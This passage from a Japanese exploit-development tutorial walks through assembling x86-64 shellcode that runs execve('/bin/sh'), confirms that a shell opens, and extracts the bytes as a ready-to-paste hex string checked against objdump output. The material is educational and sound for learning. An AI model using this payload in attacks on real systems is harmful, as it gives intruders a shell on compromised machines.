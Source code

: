 あとは以下の通りにアセンブルしてリンクします。
```
$ nasm -f elf64 shellcode_x64.asm 
$ ld -o shellcode_x64 shellcode_x64.o
```

バイナリができたら実行してみましょう。
```
$ ./shellcode_x64
sh-5.2$ echo hi
hi
sh-5.2$ exit
exit
$
```
シェルの起動が確認できました。

あとはシェルコードとしての体裁を整えるだけです。
(つまりPythonとかPerlとかにコピペして使えるバイナリ表現がほしい。)
`shellcode_x64`の中身は、先程記述した`shellcode_x64.asm`の機械語表現なだけなので、`shellcode_x64`の中身をそのまま取り出せば、`shellcode_x64.asm`と同じ処理をしてくれるバイナリが取り出せるというわけです。

早速取り出してみましょう。
ももいろテクノロジーさんのシェルスクリプトをお借りして以下のようにコマンドを打ちます。(objdump必須)
```
$ objdump -M intel -d ./shellcode_x64 | grep '^ ' | cut -f2 | perl -pe 's/(\w{2})\s+/\\x\1/g'
```
そうすれば以下のように見慣れたシェルコードを取り出すことができました。
```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```

ちょっと`objdump`で確認してみましょう。
```
$ objdump -D -M intel shellcode_x64

shellcode_x64:     ファイル形式 elf64-x86-64


セクション .text の逆アセンブル:

0000000000401000 <_start>:
  401000:       48 31 d2                xor    rdx,rdx
  401003:       52                      push   rdx
  401004:       48 b8 2f 62 69 6e 2f    movabs rax,0x68732f6e69622f
  40100b:       73 68 00 
  40100e:       50                      push   rax
  40100f:       48 89 e7                mov    rdi,rsp
  401012:       52                      push   rdx
  401013:       57                      push   rdi
  401014:       48 89 e6                mov    rsi,rsp
  401017:       48 31 c0                xor    rax,rax
  40101a:       b0 3b                   mov    al,0x3b
  40101c:       0f 05                   syscall
```
`objdump`の機械語の出力部分と、シェルスクリプトによる出力は一致しているので、正しそうです。
